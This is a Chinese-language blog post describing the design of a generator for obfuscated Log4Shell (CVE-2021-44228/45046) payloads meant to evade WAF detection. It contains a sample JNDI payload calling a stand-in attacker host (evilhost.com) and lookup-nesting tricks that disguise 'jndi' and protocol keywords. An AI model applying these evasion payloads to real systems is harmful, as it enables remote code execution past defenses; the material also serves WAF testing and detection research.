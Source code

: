 ```yaml
---
layout: post
title: "Log4Shell payload规避WAF检测技术研究与应用"
date: "2022-05-26"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Research
---
```


# Log4Shell-obfuscated-payloads-generator
## 设计思想
下面介绍本项目的四个设计思想：
1. Log4j支持递归解析嵌套的Lookup

    利用该功能，我们可以对payloads进行混淆，从而规避WAF的检测和拦截。
2. 大部分Lookups支持默认值语法
    
    如果我们想获取字符`d`的等效替换，可以利用默认值语法，检索一个不存在的变量，让Lookup失败。这样Lookup的结果就会返回我们指定的默认值`d`，例如`${env:IDONTEXIST:-d}`。
3. 可用的Lookups

    本文根据Apache Log4j Lookups手册，对所有的Lookups进行了测试，得到了可用于构造payload的Lookups：Context Map Lookup、Docker Lookup、Environment Lookup、EventLookup、Kubernetes Lookup、Log4j Configuration Location Lookup、Lower Lookup、Main Arguments Lookup (Application)、Map Lookup、Marker Lookup、Spring Boot Lookup、Structured Data Lookup、System Properties Lookup、Upper Lookup、Web Lookup，它们的前缀分别为：`ctx`、`docker`、`env`、`event`、`k8s`、`log4j`、`lower`、`main`、`map`、`marker`、`spring`、`sd`、`sys`、`upper`、`web`，这些Lookups的共同特征是支持默认值语法，在下文中将简称为“可用的Lookups”。我们将这些Lookups作为对`jndi`部分和协议字段部分中字符的等效替换，生成初级混淆的payload。
4. 初级混淆与二次混淆的区别

    假设我们有一个简单的Log4Shell payload，它看起来像这样：`${jndi:ldap://evilhost.com:1389/a}`。其中，`jndi`和`ldap`部分特征明显，很容易被WAF拦截。初级混淆仅对`jndi`部分和协议字段（`rmi`、`dns`、`ldap`）部分中的关键字进行等效替换，从形式上来看进行了一次嵌套Lookup。可以看到，虽然利用了Lookups的默认值语法得到了与字符`j`等效的`${event:rzbp7gf3lZ8W1oP3:-j}`，但是也引入了Event Lookup的前缀`event`，该前缀也可能被WAF拦截。所以，我们需要再次利用没有前缀的Lookups，对`event`前缀进行等效替换，从形式上来看进行了两次嵌套Lookup。实验结果表明，`:-`符号、`::-`符号和不存在的Lookup可以实现这个目标。利用这三种Lookups对前缀进行等效替换后，我们得到如下的内容：`${:-e}`、`${::-v}`、`${what:ever:-n}`。

## 模板设计
在介绍本项目的数据结构设计之前，需要了解混淆的模板和payloads模板：

下面是初级混淆的模板：

![初级混淆的冒号模板](/img/in-post/research/Log4Shell-obfuscated-payloads-generator/primary-delimiter-obfuscated.png)

![初级混淆的小写字母模板](/img/in-post/research/Log4Shell-obfuscated-payloads-generator/primary-lower-case-obfuscated.png)

![初级混淆的大写字母模板](/img/in-post/research/Log4Shell-obfuscated-payloads-generator/primary-upper-case-obfuscated.png)

模板中出现了大小写字母，随机变量名，Main Arguments Lookup的键的索引形式，不存在的Lookup的占位符。

下面是二次混淆的模板：

![二次混淆的冒号模板](/img/in-post/research/Log4Shell-obfuscated-payloads-generator/secondary-delimiter-obfuscated.png)

![无前缀Lookup模板](/img/in-post/research/Log4Shell-obfuscated-payloads-generator/lookup-prefix-char-obfuscated.png)

模板中占位符的作用是对可用的Lookups的前缀利用无前缀的Lookups进行等效替换。

![二次混淆的小写字母模板](/img/in-post/research/Log4Shell-obfuscated-payloads-generator/secondary-lower-case-obfuscated.png)

![二次混淆的大写字母模板](/img/in-post/research/Log4Shell-obfuscated-payloads-generator/secondary-upper-case-obfuscated.png)

下面是CVE-2021-44228和CVE-2021-45046 payloads的模板：

![CVE-2021-44228模板](/img/in-post/research/Log4Shell-obfuscated-payloads-generator/CVE-2021-44228.png)

![CVE-2021-45046模板](/img/in-post/research/Log4Shell-obfuscated-payloads-generator/CVE-2021-45046.png)

模板中出现的占位符将分别用于替换ldap、rmi、dns协议字段部分，冒号，恶意服务器的地址和随机字符串。

## 数据结构设计
下面是数据本项目的结构设计：

payload的模式schema由三个部分part组成，它们分别是lookups部分，proto部分和delititer部分。其中lookups部分有jndi前缀，proto部分有rmi，dns和ldap前缀。delimiter部分有colon_component前缀。schema看起来像是一个树状结构。

![schema的树状结构](/img/in-post/research/Log4Shell-obfuscated-payloads-generator/schema结构.jpg)

schema_one和schema_secondary在结构上完全相同。不同之处在于schema_one用于保存字符的初级混淆，schema_secondary用于保存字符的二次混淆。
mapping_of_placeholders_to_one_obfuscated_characters是占位符到初级混淆的字符的映射。mapping_of_the_secondary_obfuscation_lookup_placeholder_to_character是用于二次混淆的lookup部分的占位符到字符的映射。方法generate_obfuscated_payloads会遍历映射，将payload模板中的占位符依次替换为对应的混淆后的字符。

在执行main函数之前，有一段全局代码逻辑，用于初始化数据结构。它的伪代码描述如下：
```
if 命令行参数中有指定生成混淆的payloads的四个选项之一
	cve_2021_44228_obfuscated_payloads_template = []
	cve_2021_45046_obfuscated_payloads_template = []
	if 命令行参数中有指定生成初级混淆的payloads的两个选项之一
		lower_case_one_obfuscated_templates = []
		upper_case_one_obfuscated_templates = []
		delimiter_one_obfuscated_templates = []
		初始化树状结构schema_one
		mapping_of_placeholders_to_one_obfuscated_characters = {...}
	if 命令行参数中有指定生成二次混淆的payloads的两个选项之一
		lower_case_secondary_obfuscated_templates = []
		upper_case_secondary_obfuscated_templates = []
		delimiter_secondary_obfuscated_templates = []
		初始化树状结构schema_secondary
		mapping_of_placeholders_to_secondary_obfuscated_characters = {...}
mapping_of_the_secondary_obfuscation_lookup_placeholder_to_character = {...}
```

